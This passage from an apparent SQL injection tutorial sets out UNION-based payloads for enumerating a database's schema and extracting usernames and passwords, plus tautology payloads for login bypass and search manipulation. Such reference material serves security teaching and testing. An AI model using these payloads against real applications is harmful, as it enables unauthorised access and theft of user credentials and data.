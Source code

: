 **Step 2: Identify Data Types**
```sql
' UNION SELECT 1, 2, 3--
' UNION SELECT 'a', 'b', 'c'--
```

**Step 3: Extract Database Information**
```sql
-- Database version and user
' UNION SELECT 1, version(), user()--

-- Database names
' UNION SELECT 1, schema_name, 3 FROM information_schema.schemata--

-- Table names
' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema='database_name'--

-- Column names
' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name='users'--

-- Data extraction
' UNION SELECT 1, username, password FROM users--
```

### Tautology-Based Injection

Uses conditions that are always true to bypass authentication or extract data.

#### Common Tautology Conditions
```sql
-- Always true conditions
OR 1=1
OR 'a'='a'
OR 2>1
OR 'x'='x'

-- Authentication bypass
admin' OR '1'='1'--
admin' OR 2>1#
```

#### Application Examples
```sql
-- Login bypass
username: admin' OR 1=1--
password: anything

-- Search manipulation
search_term: ' OR 1=1--
```

### End of Line Comment

Uses comment syntax to ignore the rest of the SQL query.

